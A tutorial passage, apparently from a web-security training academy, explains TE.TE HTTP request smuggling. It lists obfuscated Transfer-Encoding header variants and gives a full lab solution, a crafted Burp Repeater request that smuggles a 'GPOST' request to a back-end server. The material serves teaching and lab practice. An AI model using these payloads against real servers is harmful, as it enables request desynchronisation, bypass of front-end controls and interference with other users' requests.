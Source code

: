 ## TE.TE behavior: obfuscating the TE header

There are potentially endless ways to obfuscate the Transfer-Encoding header. For example:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

Each of these techniques involves a subtle departure from the HTTP specification. Real-world code that implements a protocol specification rarely adheres to it with absolute precision, and it is common for different implementations to tolerate different variations from the specification. To uncover a TE.TE vulnerability, it is necessary to find some variation of the *Transfer-Encoding* header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated *Transfer-Encoding* header, the remainder of the attack will take the same form as for the CL.TE or TE.CL vulnerabilities already described.

### HTTP request smuggling, obfuscating the TE header

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method *GPOST*.

**Solution**

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
